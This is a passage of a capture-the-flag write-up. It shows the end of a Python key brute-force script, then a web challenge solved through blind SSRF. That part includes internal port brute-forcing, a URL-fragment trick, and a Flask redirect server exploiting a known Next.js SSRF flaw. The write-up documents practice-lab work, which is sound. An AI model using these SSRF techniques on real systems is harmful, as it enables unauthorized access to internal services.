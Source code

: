 ```python
                    print(f"Decrypted message: {plaintext}")
                    executor.shutdown(wait=False)
                    return True
                
                # Submit new chunk if available
                chunk = next(chunks, None)
                if chunk is not None:
                    futures.add(executor.submit(worker, chunk))
    
    pbar.close()
    return False

if __name__ == "__main__":
    print("Starting bruteforce...")
    multiprocessing.freeze_support()  # Required for Windows
    if not bruteforce():
        print("Key not found")
```

But it immediately failed. There were 63 files with over 600 words - it was too good to be true. So I started working my way down, commenting out files with the least number of words (51, 26, and 52 in the list) that would be the most likely false positives. Until I eventually hit the solve!

![[Pasted image 20250330011017.png|Pasted image 20250330011017.png]]

Teddy had been writing his own bruteforce in the background, with only 59 known bits (not sure why), and his finished around 15 mins later.
## web - Hide and Seek
>Play Hide-and-Seek with pretty button!  
( + I don't know the internal web server's port exactly, but I heard it's "well-known". )

Three-tier webapp, only source for nextjs frontend and `docker-compose.yml` hinting at backend webserver and db. Frontend called a single endpoint with blind SSRF on `POST /api/reset-game {"url":"https://webhook.tplant.com.au/273441c2-d8d2-47fb-bb3d-107187ac0560"`. The nextjs route would timeout calling IPs from `x-forwarded-for` for 10 mins after a successful request to `url`, but not unsuccessful, so I bruteforced the internal webserver port hinted by the flavourtext to get `http://192.168.200.120:808`. I could also control URL params by adding a fragment to remove the existing params:

`${body.url}?date=${Date()}&message=Congratulation! you found button!`
`http://192.168.200.120:808/?foo=bar#`

Got stuck trying to confirm it was actually blind, and not having to chain another SSRF on the webserver. Until I found this [Assetnote post on a nextjs GET SSRF n-day](https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps) and realised the frontend was an ancient nextjs version (right before the vuln was patched). Threw together a webhook to test.

```python
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://192.168.200.120:808')
    

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```
